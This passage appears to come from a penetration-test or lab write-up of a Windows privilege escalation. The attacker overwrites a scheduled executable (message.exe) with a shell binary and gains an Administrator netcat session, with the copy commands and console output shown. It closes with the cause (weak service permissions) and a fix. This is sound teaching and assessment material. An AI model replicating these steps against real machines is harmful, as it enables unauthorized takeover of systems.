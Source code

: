 We overwrite message.exe with our new .exe
```
C:\PROGRA~2\SYSTEM~1>
==copy "c:\windows\temp\shell.exe" message.exe==
C:\PROGRA~2\SYSTEM~1>copy "c:\windows\temp\shell.exe" message.exe


Overwrite message.exe? (Yes/No/All): 
==yes==
Overwrite message.exe? (Yes/No/All): yes
        1 file(s) copied.
```

We gain access with our netcat session as ==Administrator==
```
C:\PROGRA~2\SYSTEM~1>echo %username%
echo %username%
Administrator
```

![](img/20210209210840.png)

**Vulnerability Exploited:**
Incorrect permissions in services

**Vulnerability Explanation:**
A system scheduler running an executable with Administrator/SYSTEM permissions might allow Escalation of Privileges. You can replace the executable, restart the service and get shell access to the user permissions.

**Vulnerability Fix:**
Change the system scheduler to run executable with a lower user permission.

**Proof Screenshot Here:**
